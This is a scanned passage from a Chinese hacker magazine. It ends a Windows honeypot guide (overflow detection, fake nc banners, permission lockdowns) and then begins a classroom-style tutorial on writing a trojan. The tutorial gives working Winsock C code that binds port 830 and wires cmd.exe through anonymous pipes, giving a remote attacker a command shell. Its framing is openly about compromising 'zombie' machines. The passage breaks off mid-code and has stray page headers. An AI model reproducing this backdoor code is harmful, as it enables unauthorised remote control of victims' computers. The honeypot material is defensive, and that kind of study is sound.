Windows 中，操作系统是通过 NetBIOS 映射的 UDP 端口进行本地计算机名广播的，而协议表现为 NBNS（NetBIOS Name Server）。该协议就是使用了 NetBIOS 映射的 UDP 端口广播，在抓到的数据包中，也能很明显地看到远程主机通过该协议获取本地计算机主机名的过程（如图23）。

虽然说在网络上，NetBIOS 端口很多时候会主动进行广播等类似动作，但是如果通过抓到的数据包中能发现同一 IP 地址对本地计算机进行多次 SMB 服务的枚举或主机名上的刺探的话，那么基本上也是可以断定对方是在进行扫描。

关于 SMB 暂且就说到这里。不过，因为 SMB 使用较为广泛，因此除了从大量相同的特征数据上进行判断外，很难有其他好的办法。因此，SMB 会话获取信息的监视过程在蜜罐系统中相对来说较难。


# （3）溢出类攻击的监测

在蜜罐系统中，监视到最多的往往是真正的入侵和攻击过程，而攻击过程中又尤其以溢出为多。毕竟，溢出攻击是最容易成功而且也是最容易获取最高权限的一种手段，因此在此就对溢出攻击的一些监视和分辨方法进行一下讲解。

其实，相对其他攻击手段来讲，溢出攻击应该是比较容易发现的。因为溢出攻击是针对某一特定服务的，那么攻击过程中攻击程序所发送攻击代码的端口也就是一定的；而对于某一类型的操作系统来说，所收到的代码往往都是相同的。因此，只要熟悉目标端并且了解攻击程序针对某种操作系统所发送的代码的话，那么一旦通过 sniffer 监听到类似的数据包，就能迅速判断攻击类型。

这里以一个比较老的漏洞——


ida/idq 溢出漏洞来做一个简单说明。通过这个漏洞的人都应该知道，该漏洞获取的是 system 权限，危险相当大。通过 sniffer 抓到的数据包，我们可以清楚地看到，在攻击程序所发送的数据包中，可以清楚地看到 null.ida 的字样（如图24），随后还跟着一长串的数据，而在 null.ida 后面的数据形式与 shellcode 的样子十分相似。毫无疑问，此过程就是 ida 溢出攻击的过程。

如果你使用的不是 Sniffer，而是使用类似 NC 的程序在端口 80 监听的话，那么也会接收到类似的代码（如图25）；而且，如果是使用 NC 监听的话，可以模糊地看到部分 shellcode。如果有兴趣的话，还可以在网上搜索一下针对 ida 漏洞攻击的代码，然后与你所抓到的数据进行对比。

再看一下 RPC 溢出漏洞的攻击过程（如图26）。从图中可以看出，在建立了 RPC 连接后，就出现了基于 TCP 连接的数据传输，而 TCP 传输的过程中有大量数据流入。不过，由于 RPC 的过程是受系统保护的，因此我们很难判断数据传输的是什么。在这里，我可以告诉大家，这是一个攻击过程。


从上面两个例子可以看出，溢出过程是可以通过工具进行捕捉的，但是并非所有的溢出过程都是可以明显捕捉的。因此，如果想真正了解这种攻击的话，那么只有自己积攒溢出代码库。在每个严重的溢出程序推出后，我们可以通过自己实验的方式来测试攻击程序，同时抓包分析，记住或通过记录数据特征，以便以后在查看数据时可以迅速看出攻击类型和攻击程序所针对的服务。其实，这个过程往往就是很多 IDS 所必须的一个过程：很多 IDS 的规则库保存了大量的 shellcode 或类似的数据代码，然后在网络上进行抓包并尝试匹配，一旦匹配成功，则认为网络上出现了此类攻击。与 IDS 不同的是，这里我们并非通过程序实现，而是通过手工实现。


关于溢出攻击的检测手段就说这么多，下面简单说一下溢出攻击的防范。大家应该清楚，这里我们讲解的是蜜罐系统。然而，溢出攻击带来的危害可能是巨大的，一次成功的溢出攻击很可能在几秒钟内就使你的系统被攻占；如果一个蜜罐被入侵者拿到最高权限的话，那么就失去了其蜜罐的意义。因此，这里我们不仅需要能识别溢出攻击，还要能做好防御。

## 防御方法一：安装补丁

在这里，我们是以 MS Win32 操作系统下的蜜罐系统搭建为主要讲解对象。而针对 Windows 系列的操作系统，绝大部分漏洞都是可以用补丁解决问题的；但是这里需要补一点说明：如果打上补丁的话，就意味着只能了解入侵者的攻击手段，而无法让其通过该类攻击进入你的系统。因此，对于那些想要深入了解攻击者想法的人们，此法似乎不太合适。

## 防御方法二：模拟服务

先说缺点：模拟的服务或系统是无法替代真实的服务和系统的。因此，其缺点和防御方法一所带来的是一样的。就是虽然可以获取对方的攻击方法和手段，但是由于服务是模拟的，而无法让对方通过此类攻击进入你的操作系统。因此，如果想要深入了解入侵者的行为的话，这种方法不推荐。

至于服务的模拟方法，主要分为两步：

- 端口监听
- banner 模拟

这两步是比较大众化的，而且也是比较有效的，下面把过程简单说一下：

```bash
nc -vv -L -p 5277 < C:\fake.banner.txt
nc -vv IP_addr 5277
```

首先，我们建立一个文件，名为 `fake.banner.txt`，里面写上如下内容：“This is a fake banner”。引号里的内容就是你打算让对方看到的 banner 信息。这里我们假设在端口 5277 上模拟一个服务，用 NC 来做。另一头，我们可以用 nc 来连接测试一下；这样就可以看到我们模拟的那个 banner 信息 “This is a fake banner”（如图27）。这是一个比较简单的方法，至于复杂的方法，有些是通过专门的工具完成的，这里就不介绍了，我们回到正题。

## 防御方法三：权限限制

其实，Windows 操作系统漏洞虽然多不胜数，但是很多漏洞都是可以通过权限设置进行弥补的。例如，在 Windows 2000 下，我们可以设置一下 cmd.exe 的权限。为什么要设置 cmd.exe 的权限呢？原因很简单：目前有相当多的溢出程序在溢出成功后，会在某一个特定的端口以 system 或者其他高权限用户绑定上 cmd.exe 程序。然后，当我们用 nc 或 telnet 方式连接该端口的时候，获得的就是具有 system 权限的 cmd.exe 程序界面，因此我们可以做很多事。但是，在 Windows NT/2K/XP 上，如果使用了 NTFS 分区，我们只要对 cmd.exe 设置一下权限，那么完全可以禁止 system 用户对 cmd.exe 的访问。关于权限的设置方法，这里就不细讲了。另外，我们还可以给一些系统命令加上权限，例如 net.exe 和 net1.exe 等等。


其实，利用权限限制的方法不仅对溢出攻击有效，对很多攻击都是很有效的。例如，Web 上我们也可以用这样的方法。大家都知道，访问 Web 的时候，默认是使用 Windows 一个内置的权限较低的用户 IUSR_MACHINENAME 进行访问的。为了防止入侵者通过 Web 漏洞或 Injection 的方式进入系统，我们可以针对该用户设置权限，让其对虚拟目录只有可读权限，除非程序需要，否则绝对不给写权限。这样就可以有效避免被入侵；即使对方找到了漏洞，由于其使用的只是 IUSR_MACHINENAME 这个用户，最终也会因为权限不够而无法得手。

话题扯得远了些，但是不得不承认，Windows 权限上的设置对防范入侵是一个非常有效的手段。而且，我们可以利用权限设置和审核策略结合的这种方法来详细记录入侵者的一举一动（关于这一点，在后面的实例中会有说明）。以上三种方法比较有效而比较简单，除了这些方法外，最简单的就是借助第三方软件，例如防火墙。

# （4）利用模拟服务的方法迷惑对方

修改 banner 模拟服务这些手法对很多人来说已经是小儿科了，而且类似的方法似乎用得也比较滥了，实在没什么好讲的。

但是，有一点却是值得一提的，就是很多入侵者相信扫描器的结果。现在相当多的人，在入侵前一定会进行扫描，而相信扫描结果的人又占多数。很多人会抱着扫描报告一个漏洞一个漏洞地去试，所以在这方面我们就占了主动优势。例如，我们可以通过开端口的方法来诱惑对方，就像前面说的那样，一个 nc 命令打开一个端口。因为现在很多扫描器针对一些比较常见的服务（例如 Web）的扫描是基于端口的。关于类似的方法，在网上很多文章已经讲得很多了，这里就不再重复什么了，只是给大家提供一个思路。

## 3、利用Windows操作系统制作一个真实的蜜罐

虚拟蜜罐系统可以做很多事情，但是毕竟做来做去只是在同一个系统上动手脚，比较容易暴露。而且，单机模拟蜜罐的时候，最有效的是捕捉扫描数据，例如入侵前的扫描过程、病毒感染前的扫描过程、蠕虫病毒的传播过程（可以据此而找到祸源）等等。

然而完整的蜜罐系统不但需要捕捉到入侵者的前奏，还要监视其登录主机后的“工作”过程。因此，这种时候，利用虚拟的蜜罐系统多少有些力不从心。下面，我们就来利用一个真实的系统搭建一个蜜罐。UNIX/Linux 下提供了很多简单有效而且专业的蜜罐程序，但是我们要做的是针对 Windows 的，而且尽量在借助少量第三方软件的情况下，尽量使用 Windows 本身来完成这个蜜罐。

## 准备工作

首先，做一些准备工作，至少保证有两台主机以运行两个操作系统；或者保证使用一台计算机，同时运行一个虚拟机，以保证两个操作系统同时运行。

## 操作系统的选择

推荐使用 Windows 2000 Professional。也许有人会奇怪为什么不使用更高版本的操作系统，这个问题值得注意：版本越高，功能越强，因此无形中就相当于给入侵者手中的刀越锋利。可以举下面这样一个例子：

你以 administrator 登录，入侵者以 system 权限登录。这时，如果你的操作系统支持 query user 这样的命令，或是使用了 XP 操作系统的话，入侵者只要手指一动，就可以发现当前计算机上除了他以外，还有另外一个人。而且，像 XP 那样的操作系统，甚至连每个用户所运行的程序都可以轻易看到，无形中就会暴露自己的行踪。

## 安装组件

尽量安装较多的组件，尤其像 IIS 这样吸引入侵者眼球的服务，一定要装上。以后我们主要靠这样的组件来吸引入侵者。

## 用户和口令

禁掉一些没有意义的用户，像 guest 这样的用户，但是 IIS 带的用户千万不要停。另外，保证至少有两个管理员，两个管理员账号密码长度要达到 12 位以上，而且密码有特殊字符，保证不是你平时惯用的生日密码。之所以需要两个管理员账号是为了起一个冗余的作用；另外，有时候被逼无奈的情况下，还可能会牺牲一个做陷阱账号，当然，那时候我们会再多做一些修改。

以上是一些大的方向，接下来，我们要在小地方做文章。一些细节上的问题往往是致命的，在蜜罐中也是如此。一个小小的细节可能就会导致你的蜜罐系统完全被暴露出来，因此细节上的设置一定要经过三思。

## 进一步修改用户权限

我们设置 `C:\WINNT` 目录（如果你的 Windows 是安装在 C 盘的话）以及下面几个特别需要注意的文件的权限。首先，通过阻止从 C 盘继承权限，这样就恢复了 WINNT 目录的默认权限；然后，再到高级选项中选择“重置子对象并允许传播可继承权限”，以便让 WINNT 的子目录和文件也恢复默认的权限。接下来，我们需要修改一些危险命令。

先修改 net 命令。这里我们只用权限来限制用户对 net 命令的调用（需要修改 `net.exe` 和 `net1.exe` 两个文件），直接将 Everyone 组设置为“全部拒绝”，这样无论是谁都无法使用 net 命令。接下来，还要修改 `cacls.exe` 命令的权限，由于该命令可以在命令行下修改权限设置，因此也需要修改，同样将 Everyone 组设置为“全部拒绝”即可。

这样，当我们试图运行这些命令时，就会收到拒绝访问的信息：

```bat
C:\>net
拒绝访问。

C:\>net1
拒绝访问。

C:\>cacls
拒绝访问。
```

同样地，将 `Format.com` 文件也做相同的权限设置，以防入侵者恼羞成怒，给你玩个格式化。权限设置时需要注意：在设置权限时，千万不要允许继承来自父系的权限；而且，尽量是对 Everyone 组设置“全部拒绝”，而不是将所有用户都从访问控制列表删除。这是因为 Windows 的 NTFS 分区权限“拒绝优先”原则，这样更有保证，可以防止误操作使权限恢复。

然后，我们要对个别比较重要的文件加上审核。首先，我们要先打开审核策略，因为 Windows 2000 默认的审核策略是没有打开的。在“运行”中输入 `gpedit.msc`，运行组策略，在“计算机配置”→“Windows 设置”→“安全设置”→“审核策略”中，选择相应的事件以打开审核。由于我安装的为 Win2k

# 主题乐园

Pro系统，无法远程登录。所以，登录审核不用选择。这里建议选择访问对象审核和账户管理审核。将审核策略打开后，找到以下几个文件：`%systemroot%\system32\cmd.exe`、`%systemroot%\regedit.exe`、`rundll32.exe`。选择这几个文件的属性，在“安全”中选择“高级”，然后选择“审核项”，在这里全部审核，将所有动作都列入审核范围内。类似地，还可以设置一些其他文件的审核，这个就随便你了。

另外，为了保证日志不被随意删除，给我们的日志加些权限上的限制，位置是：`%systemroot%\system32\config` 目录。该目录下后缀为 `.Evt` 的文件为日志文件。为了防止日志被删，全都加上权限；权限设置方法和上面一样，先取消继承，然后给日志加权限。至于权限如何加，完全可以根据自己的要求，不过只要不要求太严格，否则容易受到怀疑；但是，也要注意，对于审核这两项的日志，绝对不能让人侵占、随意删除。以上权限的设置只是给一些建议而已，在绝大多数情况下，完全没必要依照我说的这些来设置权限。只要了解了其中的目的和用意，完全可以依照自己的实际情况进行设置。

# 创建陷阱账号

如果没有一个合理的陷阱账号，那么上面的工作就属于无用功了。账号创建当然需要一些技巧性，而且，针对不同的人，应该给他们不同的账号。也许有人会比较奇怪我这个说法；但是，这里如果我问，谁能详细叙述一下 Power Users 组的权限？相信很多人都能想到，这是一个权限仅次于 administrators 组的用户组，其权限相当高。但是，也不排除很多人根本就不知道这个问题。另外，可能还有人也不知道，Power Users 组甚至可以重写某个文件的所有权，在权限方面的 Win2k 中，如果能取得所有权，那么，事情将会非常可怕。

不过还好，Power Users 组的用户并不能修改文件的审核项（如图29）。从图中可以看出，Power Users 组的用户根本没有设置审核这一项。虽说如此，但是，有一点是相当值得庆幸：当 Power Users 组的用户对某个文件没有访问权限，或只能读而不能运行的时候，那么，他将什么都做不了。这个用户组这样的设置，毫无疑问地给我们提供了方便。只要权限设置得当，将该组的用户锁定在一个你想要的范围中活动是绝对没有问题的；但是，很多时候，我们应该适当放宽陷阱账号的权限，至少我们要放松该账号的读取权限和部分不危险程序的运行权限。这样，我们可以记录该用户的动作。


另外，由于大部分入侵动作都在 cmd 下进行，因此，我们应该对一些常用命令做一些审核上的设置，例如：`net.exe`、`net1.exe`、`netstat` 等等；但是，通过这样的审核，并不能详细地记录过程。因此，建议使用一些第三方工具，例如 `cmdLog`。关于 cmdlog 的介绍网上有很多，这里就不多说了，我主要是提供思路。

# 保存当前设置

虽然当前系统为蜜罐，但是，如果一旦系统受到严重损坏，那么，吃苦受累的还是我们，因此，做好系统备份是十分必要的。有些人喜欢使用 Ghost，这样也不错。都完成后，做一下 Ghost，恢复起来也快。

如果对 Ghost 没有兴趣的朋友，可以考虑备份当前的一些设置：

- 备份注册表，要全部都备份。
- 备份系统关键文件（如系统启动文件、驱动、配置文件等关键项）。
- 备份经常用到的系统类服务和相关配置，并在系统恢复后进行对比校验。

以上就是一些简单的准备工作。如果你有一台专门的主机用来做蜜罐的话，那么，建议你花点银子买个协议分析器，或者直接在蜜罐主机上长期架设个 Sniffer。当然，如果这样的话，你要做好随时清理硬盘的准备。

# 蜜罐的工作

其实，真正使用蜜罐的人应该知道，蜜罐的功能中，捕捉入侵者的动作相对捕捉病毒和病毒流向等功能来说，是很少用到的。在蜜罐工作过程中，往往需要捕捉的是蜜罐所在网络中的病毒流向和爆发等情况。当触发某一事件时，产生报警。从某种角度上来说，蜜罐很多时候都是当作 IDS 来使用的。只是它相对那些专业的硬件 IDS 来说，不够专业，而且廉价。简单说来，很多时候，我们就可以认为蜜罐是一个廉价的 IDS。

在前面虚拟的蜜罐系统中，讲过了一些攻击的判断和特征，在此仍然是适用的。只要了解了上面讲述的一些简单步骤，对于个人架设蜜罐来说，还是比较简单的。另外，在个人使用的时候，推荐在本机上运行一些 IDS 软件。Windows 系统下，可以使用 Snort for Win 版本和 Session Wall 之类的软件。提了半天 IDS，这里简单说一下，为什么要在蜜罐中使用 IDS：

- 其一：正如上面所说，蜜罐可从某种意义作为 IDS 来使用；
- 其二：IDS 软件在蜜罐系统中的工作更偏向检测类型告警，便于分析详细的警报内容。
- 其三：由于 IDS 属于实时检测系统，因此，对于一些突发事件响应较快，比起手动 sniffer 分析，速度和效率会更高。

总之，应该记住，在相当多时候，IDS 和蜜罐是密不可分的。

其实，在上一部分，很多类型的攻击特征都已经讲明。利用真实的操作系统制作蜜罐与虚拟的蜜罐系统最大的不同之处，也就是因为真实的操作系统可以利用系统本身的一些特性。例如，上面所看到的权限、审核等功能的利用。利用这些系统本身的特征，加上一些常见问题的处理能力，这就组成了真实操作系统的蜜罐系统。

# 六、结束语

由于篇幅有限，本文就到此结束了。关于蜜罐系统，这里只讲述了一些简单的问题。也许很多读者会认为内容不够充实，但是，由于条件所限，而且很多读者对 IDS 等相关知识并不是很了解，所以，一些知识点讲起来可能会有困难，因此，部分细节就没有太过深入，实例也较少。

# 最后要提醒读者：

本文涉及的知识相当浅显，可谓是蜜罐系统的皮毛而已。读者切勿因读懂本文而沾沾自喜，如果对蜜罐系统有兴趣的话，建议购买相关的专业书籍阅读。

另外，值得注意的是，蜜罐系统是一门技术，而并不是一个简单的工具；如果想深入学习，接触最多的并非是实践，而是以理论为基础加上经验。笔者曾接触过国内某著名杀毒厂商的蜜罐产品，打开系统监视的过程中，面对的是大量日志记录和 Sniffer 捕捉到的数据。因此，对于没有足够耐心的朋友，建议放弃深入学习蜜罐的想法。总之，坚实的理论加上个人分析事件的处理经验，就是分析和搭建蜜罐系统的最好工具。

（关于伪装 HTTP 服务的程序 http.pl、SMBCrack_sniffer_pro.cap、X_scan_NT_crack_sniffer_pro.cap、SMBCrack_NT_password_crack_nsfocus_capture.dat……）

# 菜鸟屠门编写进步篇

王炜 / ww0830

老师望着台下的小菜们说道：“今天的天气真好……所以新的一期课也开始了。”

“我们上午么白话呢？”

“嗯，大家希望听什么呢？”

“新的一年是鸡年，那当然希望鸡年肉鸡连连啦！”

……

“这次课程我们就把重点放在木马的编写技术上，让大家也能成为木马的终结者。哦，不，木马的制造者吧！”

# 计算机网络通信初步

“木马，木马，就是木头做的马！”老师说道。

“啊，那是出自经典名篇《特洛伊》……”

“既然木马是通过网络来远程控制我们的肉鸡，那么木马必须拥有的首要功能，就是网络远程通信的功能了。网络远程通信有好几种实现方法，在这里我们使用 Windows socket 编程。”

> **小知识：**Windows 下网络通信编程的几种方式。第一种是基于 NetBIOS 的网络编程；第二种是基于 Winsock 的网络编程；第三种是直接网络编程；第四种是基于物理设备的网络编程。

“IP、端口和 socket 是紧密相联的，但又绝不是相同的概念。我们一定要分清楚！”

### 1. IP地址的独白

大家好，我是 IP 地址……我是 TCP/IP 协议族中的一员，负责在 Internet 上标识与定位主机，并协助数据传输与通信。


## 2. 端口地址的独白

我是端口地址，就是 port，是 TCP 的手下。我的作用是区分机器上的各种服务……有了端口，客户端才可以连接、传输数据。


### 3. Socket的独白

我是 socket，为自由而生……我不属于任何协议……因为不是 ISO 或 IEEE 创造的我。我诞生在加利福尼亚大学伯克利分校（Berkeley）实验室中。他们赋予了我连接不同网络主机通信的能力……这就是为何有了我，做到了：如果说 IP 是确定通信主机的位置；端口是确定通信主机的服务；那么我 socket 就是确定通信具体的进程了……下面就是使用 IP 地址和我 socket 来指明每一个通信过程。


老师继续说道：“由于伯克利的工作，我们使用 socket 实现网络通信都是非常方便的。Socket，其实它就是一个整数，标识了计算机上不同的通信端口。程序在通信前，建立一个套接字，以后对设置 IP、端口和传输数据等，都通过此套接字来进行就可以了。说了这么多概念上的东西，很想看看套接字在编程时是如何实现的呀。”

“通信通常必然是两台计算机间的事情，而且需要有一台是服务端，一台是客户端。服务端首先启动，建立一个套接字 socket，并对相应的 IP 和端口进行绑定、监听；客户端也建立一个套接字，它直接连接服务端监听端口。双方连接建立后，服务端和客户端就可以互相传输数据了，当然都是通过 socket 来完成的。其工作流程图如图4。”


“我们庖丁解牛，分而治之。首先看服务端的程序，其流程是：”

- `socket()`
- `bind()`
- `listen()`
- `accept()`
- `recv()/send()`
- `closesocket()`
- （Windows 下还需）`WSAStartup()` 初始化 Windows Socket DLL

```cpp
WSAStartup(MAKEWORD(2,2), &ws);
sockfd = socket(AF_INET, SOCK_STREAM, 0);
my_addr.sin_family = AF_INET;
my_addr.sin_port = htons(830);
my_addr.sin_addr.s_addr = INADDR_ANY;
bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr));
```

接下来监听端口：`listen(sockfd, BACKLOG)`，如果有客户端连接请求，接收它：`new_fd = accept(...)`，最后发送 `vw0830` 字符串过去：`send(new_fd, "vw0830\n", 14, 0)`，收尾工作，关闭 socket：`closesocket(sockfd); closesocket(new_fd);`

```cpp
#include <stdio.h>
#include <winsock.h>
#pragma comment(lib,"Ws2_32")
#define BACKLOG 10

int main(){
    int sockfd, new_fd;
    struct sockaddr_in my_addr;
    struct sockaddr_in their_addr;
    int sin_size;
    WSADATA ws;

    WSAStartup(MAKEWORD(2,2), &ws);
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(830);
    my_addr.sin_addr.s_addr = INADDR_ANY;
    bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr));
    listen(sockfd, BACKLOG);
    sin_size = sizeof(struct sockaddr_in);
    new_fd = accept(sockfd, (struct sockaddr *)&their_addr, &sin_size);
    send(new_fd, "vw0830\n", 14, 0);
    closesocket(sockfd);
    closesocket(new_fd);
    return 0;
}
```

“哇！果然都是对 socket 的操作！”小菜们感叹道。

“对！大家注意，我为了突出整个流程和节约篇幅，程序没有加任何的错误判断和处理。但在实际程序中，错误处理是很重要的部分，大家一定要重视！”老师说道。

“我们把 server.cpp 编译、执行，就会一直监听 830 端口。测试一下吧，在另一台机器上，进入命令行界面，输入 `telnet 服务器IP 830` ……敲回车，telnet 客户端成功收到服务端发来的 `vw0830` 字符串，并显示在屏幕上；而在服务端也显示传输成功。刚才客户端使用的 telnet 程序是 Windows 系统自带的。我们也可以自己实现一个客户端程序来实现通信，客户端的流程如下：`socket() -> connect() -> send()/... -> recv() -> closesocket()`。客户端只管连接就可以了，所以更简单。还是流程最关键，我们也把脉络提出来过一遍吧。”老师说道。

“首先是初始化 Windows Socket DLL：`WSAStartup(MAKEWORD(2,2),&ws)`，然后建立 socket：`sockfd = socket(AF_INET, SOCK_STREAM, 0)`。”

```cpp
their_addr.sin_family = AF_INET;   /* 协议类型是 INET */
their_addr.sin_port = htons(830);  /* 连接对方 830 端口 */
their_addr.sin_addr.s_addr = inet_addr(argv[1]); /* 连接对方的 IP */
connect(sockfd, (struct sockaddr *)&their_addr, sizeof(struct sockaddr));
```

连接成功就接收数据：`recv(sockfd, buf, MAXDATASIZE, 0)`，最后把收到的数据打印出来并关闭套接字：`printf("Received: %s", buf); closesocket(sockfd);`

“这儿的 `htons(830)`、`inet_addr(argv[1])` 是什么意思呢？”小菜们问道。

“问得好！在网络上，数据的存放格式和本地计算机的存放格式是不一样的。本地计算机是高位数据放在高位地址，而网络数据则刚好相反。端口号要用 `htons` 或 `htonl` 把本地数据格式转换成网络数据格式；像 `127.0.0.1` 这样的点分 IP 地址，则要用 `inet_addr` 转换成 16 进制型 IP 地址。”

“哦，这样啊！`argv[1]` 又是什么呢？”

“这是程序执行时带的参数值。执行时，要像下面这样把服务端的 IP 作为程序的参数。”

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <winsock.h>
#pragma comment(lib,"ws2_32")
#define MAXDATASIZE 100

int main(int argc, char *argv[])
{
    int sockfd, numbytes;
    char buf[MAXDATASIZE];
    struct sockaddr_in their_addr;

    if (argc != 2) {
        fprintf(stderr, "usage: client hostname\n");
        exit(1);
    }

    WSADATA ws;
    WSAStartup(MAKEWORD(2,2), &ws);
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    their_addr.sin_family = AF_INET;
    their_addr.sin_port = htons(830);
    their_addr.sin_addr.s_addr = inet_addr(argv[1]);
    connect(sockfd, (struct sockaddr *)&their_addr, sizeof(struct sockaddr));
    numbytes = recv(sockfd, buf, MAXDATASIZE, 0);
    buf[numbytes] = '\0';
    printf("Received: %s", buf);
    closesocket(sockfd);
    return 0;
}
```


“连起来测试一下。我们还是先打开服务端的程序，让它监听端口，再运行客户端的程序去连接它，其效果如图9。”

“先看第一个，为客户端创建一个 cmd.exe。可以用 CreateProcess 来创建这个子进程，其原型是：”


```c
BOOL CreateProcess(
  LPCTSTR lpApplicationName,
  LPTSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCTSTR lpCurrentDirectory,
  LPSTARTUPINFO lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

“我有点明白了！编程就是用一系列的函数，完成构思的流程图中的每个部分。”

“你总结得很好了！”老师赞扬地说，“程序的本质，是算法加数据结构。算法就是流程图，数据结构就是定义适当的变量来调用适合的函数。当然，如果作为一个软件，就不局限于此了。软件追求的是满足用户提出的需求，并提供给用户人性化的界面。”

### 最基本的执行DOS命令过程

“上课了，继续学习木马；继续学习木马！”小菜们边嚷着边走进了教室。

老师待大家坐好后，问道：“同学们，充分发挥你们的想象力。当上天给了你一个机会，用木马登上了别人的机器，你们首先想做的事情是什么呢？”

“`net user`！添加一个我们的管理员账户，哈哈！”

“如果是仇人的机器，format，格式化了它！”

“晕，大家可不能做坏事啊！”老师说道，“大家考虑的其实都差不多，都是最基本的 DOS 命令行下的功能。DOS 功能是木马必须拥有的最小的功能模块。我们来看看如何实现它吧。”

“最早的木马——像冰河那个时代的木马，都是把目标机作为服务器，打开一个端口进行监听。如果攻击者连接了那个端口，就会得到一个 DOS 的 shell。这类木马叫正向木马，要做的事情就是：当攻击机连接上之后，为它创建一个 cmd.exe，把该主机的输入输出和 cmd.exe 的输入输出联系起来。我们远程的攻击者就跟 telnet 一样，有了一个远程 shell 了。刚才我们学习了绑定某个端口、接收连接和发送数据的实现。接下来我们就要：1. 创建 cmd.exe 进程；2. 把 cmd 进程和客户端输入连起来。”

“哇！好多参数啊。”

“呵呵，不要紧，很多参数不是 0 就是 1，所以还是很简单的。”老师说道，“大家如果想看效果，执行下面这个程序。”

```c
#include <windows.h>
int main()
{
    PROCESS_INFORMATION ProcessInformation;
    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    CreateProcess(NULL, "cmd.exe /k", NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
    return 0;
}
```

“就用了三个参数，创建了一个 `cmd.exe /k` 子进程。其效果如图10，打开了一个 cmd 窗口，这里的参数 `/k`，是让控制台执行并保留下来。”

“但如何和攻击端输入的命令联系起来呢？”

老师回答道：“这就涉及到进程间的通信了。我们的 cmd.exe 是一个子进程，而接收攻击端命令、返回命令结果部分是在父进程，所以要把它们联系起来，必须用进程间通信的方法了。这里我们使用匿名管道（Anonymous Pipe）来完成这个联系过程。”

> **小知识：**管道（Pipe）是一种简单的进程间通信（IPC）机制，实际是一段共享内存；在 Windows NT/2000/98/95 下都可以使用。一个进程向管道写入数据后，另一个进程就可以从管道的另一端将其读取出来。


“管道分有名和匿名两种，匿名管道要简单得多，是单向的。虽然只能用在父子进程之间，或一个进程的两个子进程之间通信，但正好符合我们的要求。”

“好了，”老师把手一挥，“多说无益，还是看看程序流程和具体的实现吧！”

“匿名管道由 `CreatePipe()` 函数创建。一个匿名管道有读句柄和写句柄，写句柄用来往管道中写数据，读句柄把管道中存在的数据读出来。”

“创建了匿名管道和相应的读写句柄后，我们把写句柄放入父进程中，读句柄放入另一个进程中。第一个进程要把数据写入 Pipe 时，针对写句柄调用 `WriteFile` 函数即可；另一个进程要读取 Pipe 里的数据时，针对读句柄先调用 `PeekNamedPipe` 函数……”

# 主题乐园

确定 Pipe 中是否有数据，然后再调用 `ReadFile` 函数，将 Pipe 中的数据读出即可。我们建立两个 Pipe，第一个管道用于输出执行结果，第二个管道用于输入命令。

```c
CreatePipe(&hReadPipe1, &hWritePipe1, &pipeattr1, 0); // 管道1输出cmd结果
CreatePipe(&hReadPipe2, &hWritePipe2, &pipeattr2, 0); // 管道2输入攻击者命令
```

于是，我们把 `cmd` 子进程的输出句柄用管道1的写句柄替换，主进程就能通过管道1的读句柄获取 `cmd` 的输出，从而发给攻击者。接着把 `cmd` 子进程的输入句柄用管道2的读句柄替换，其通信过程如下：

```text
（远程主机）→ socket → 结果 → 管道1输出
→ 管道1输入 → 输出（cmd.exe子进程）
（远程主机）→ socket → 命令 → 管道2输入
→ 管道2输出 → 输入（cmd.exe子进程）
```

为了达到这样的效果，我们设置 `cmd` 子进程启动参数 `si` 为：

```c
si.hStdInput = hReadPipe2;
si.hStdOutput = si.hStdError = hWritePipe1;
```

然后替换 `cmd` 子进程的输出句柄和输入句柄，最后再开启 `cmd` 命令就可以了。

```c
CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```

`cmd` 子进程启动起来后，就要和远程攻击机之间通信，传输用户的命令和结果。实现是先检查管道1是否有输出，如果有就读出来发给远程客户机；如果没有，就接收远程客户机的命令并写入管道2。

```c
// 检查管道1，即cmd进程是否有输出
ret = PeekNamedPipe(hReadPipe1, Buff, 1024, &lBytesRead, 0, 0);
if (lBytesRead) {
    // 管道1有输出，读出结果发给远程客户机
    ret = ReadFile(hReadPipe1, Buff, lBytesRead, &lBytesRead, 0);
    if (ret) ret = send(ClientFD, Buff, lBytesRead, 0);
} else {
    // 否则，接收远程客户机命令
    lBytesRead = recv(ClientFD, Buff, 1024, 0);
    if (lBytesRead <= 0) break;
    ret = WriteFile(hWritePipe2, Buff, lBytesRead, &lBytesRead, 0);
}
```

```c
if (!ret) break;
ret = send(ClientFD, Buff, lBytesRead, 0);
if (ret <= 0) break;
...
else {
    lBytesRead = recv(ClientFD, Buff, 1024, 0);
    if (lBytesRead <= 0) break;
    ret = WriteFile(hWritePipe2, Buff, lBytesRead, &lBytesRead, 0);
    if (!ret) break;
}
```

老师拍手，说道，把它们合起来，不断循环接收命令、发给 `cmd` 子进程执行、得到结果、发回给攻击者。如果其他机器 `telnet ip 830`，就会给它一个远程的 `cmd shell`。

“哦！我们也会编写木马了！”老师微笑着说明：这个木马虽然简单，却是所有木马的雏形。刚才使用两个管道的方法，其实还可以只用一个管道。

“对！`cmd` 子进程要输出结果必须要使用一个管道；但给 `cmd` 子进程输入要执行的命令时，可以想办法不用管道！我们只建一个管道，然后将 `cmd` 子进程的输出句柄用管道写句柄替换。”

```c
CreatePipe(&hReadPipe, &hWritePipe, &SecurityAttr, 0);
si.hStdOutput = si.hStdError = hWritePipe;
```

“传输执行结果和双管道一样，先检查管道里有没有输出数据，有就将数据读出并发送给客户机；而接收远程客户机的命令时，把命令数据和 `cmd /c` 合起来，作为参数开启一个新的 `cmd` 子进程。代码如下。”

```c
ret = PeekNamedPipe(hReadPipe, Buff, 1024, &lBytesRead, 0, 0);
if (lBytesRead) {
    ret = ReadFile(hReadPipe, Buff, lBytesRead, &lBytesRead, 0);
    if (ret != 0) {
        ret = send(clientFD, Buff, lBytesRead, 0);
        if (ret <= 0) break;
    }
} else {
    lBytesRead = recv(clientFD, Buff, 1024, 0);
